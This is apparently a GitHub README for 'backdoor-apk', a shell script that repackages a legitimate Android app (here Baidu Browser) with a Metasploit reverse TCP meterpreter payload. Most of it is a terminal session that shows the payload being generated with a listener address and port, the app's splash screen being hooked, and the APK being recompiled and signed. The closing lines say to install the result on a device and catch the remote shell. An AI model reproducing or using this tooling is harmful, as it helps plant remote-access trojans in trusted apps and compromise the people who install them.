 # backdoor-apk
backdoor-apk is a shell script that simplifies the process of adding a backdoor to any Android APK file. Users of this shell script should have working knowledge of Linux, Bash, Metasploit, Apktool, the Android SDK, smali, etc. This shell script is provided as-is without warranty of any kind. This shell script is intended for educational purposes only.

Usage:

```
root@kali:~/Android/evol-lab/BaiduBrowserRat# ./backdoor-apk.sh BaiduBrowser.apk 
[*] Generating reverse tcp meterpreter payload...done.
[+] Handle the meterpreter connection at: 10.6.9.31:1337
[*] Decompiling original APK file...done.
[*] Decompiling RAT APK file...done.
[*] Creating new directories in original project for RAT smali files...done.
[*] Copying RAT smali files to new directories in original project...done.
[*] Fixing RAT smali files...done.
[*] Locating smali file to hook in original project...done.
[+] Original smali file to hook: /root/Android/evol-lab/BaiduBrowserRat/original/smali/com/baidu/browser/inter/SplashActivity.smali
[*] Adding hook in original smali file...done.
[*] Merging permissions of original and payload projects...done.
[*] Recompiling original project with backdoor...done.
[*] Signing recompiled APK...done.
root@kali:~/Android/evol-lab/BaiduBrowserRat#
```

The recompiled APK will be found in the 'original/dist' directory. Install the APK on an Android device and handle the meterpreter connection at the specified IP and port.
